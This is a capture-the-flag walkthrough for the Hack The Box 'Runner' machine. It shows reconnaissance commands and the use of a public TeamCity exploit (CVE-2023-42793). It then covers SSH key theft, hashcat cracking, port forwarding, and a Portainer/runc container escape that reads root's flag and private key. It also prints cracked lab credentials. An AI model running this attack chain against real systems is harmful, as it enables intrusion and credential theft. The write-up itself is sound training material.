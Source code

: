 # [Runner](https://app.hackthebox.com/machines/runner)

```bash
nmap -p- --min-rate 10000 10.10.11.13 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80,8000 10.10.11.13 -Pn 
```

![alt text](img/image-1.png)


From nmap scan result, I see that this ip address is resolved into `runner.htb`, let's add this into `/etc/hosts` file for resolving purposes.



While opening web application on port `80`, it returns such an page.

![alt text](img/image-2.png)

Let's do `Subdomain Enumeration` via `wfuzz`.

```bash
wfuzz -u http://runner.htb -H "Host: FUZZ.runner.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```

![alt text](img/image-3.png)


Let's add `teamcity.runner.htb` domain name to `/etc/hosts` file.


While I open `teamcity.runner.htb`, it returns `Teamcity` web application and login form.

![alt text](img/image-4.png)


Version is `Version 2023.05.3 (build 129390)`.


I searched publicly known exploit for this version of web application. That's [CVE-2023-42793](https://github.com/H454NSec/CVE-2023-42793)

Let's use this.

```bash
python3 CVE-2023-42793.py -u http://teamcity.runner.htb/
```


![alt text](img/image-5.png)


H454NSec3879:@H454NSec

Let's use this credentials to login into system.


I find one last backup, let's download this and analyze data inside of this.

![alt text](img/image-6.png)



Once I extract data, I find `id_rsa` from here, let's try to use this to authenticate into machine.


![alt text](img/image-7.png)



Let's change mode of this `id_rsa` and use for authentication via `ssh`.

```bash
chmod 600 id_rsa
ssh -i id_rsa
```

![alt text](img/image-8.png)


I brute-force possible users from list of Teamcity application and `john` is correct one for me.

![alt text](img/image-9.png)


user.txt

![alt text](img/image-10.png)


I also find `database_dump` folder after extraction and read `users` file which contains user's information.

![alt text](img/image-11.png)


Let's take password hash of `matthew` user and tries to crack with `hashcat`.

```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![alt text](img/image-13.png)


matthew: piper123

For `Privilege Escalation`, I just run `netstat -ntpl` to see open ports.

![alt text](img/image-12.png)


I see port `9000`, let's do `Port Forwarding` to see what application is running.

```bash
ssh -L 9000:localhost:9000 -i id_rsa john@runner.htb
```

![alt text](img/image-14.png)


While I open web application port `9000`, it opens up `Portainer`. I authenticat myself into here via `matthew` credentials.

![alt text](img/image-15.png)


Then, I find this [blog](https://rioasmara.com/2021/08/15/use-portainer-for-privilege-escalation/) for `Privilege Escalation`.

I also use vulnerability whose id is `CVE-2024–21626`.

![alt text](img/image-16.png)

![alt text](img/image-17.png)


I deploy container after setting this configuration.


I can read all system sensitive files belong to `root` user.

```bash
cat ../../../../../../root/root.txt
cat ../../../../../../root/.ssh/id_rsa
```

![alt text](img/image-18.png)


root.txt

![alt text](img/image-19.png)




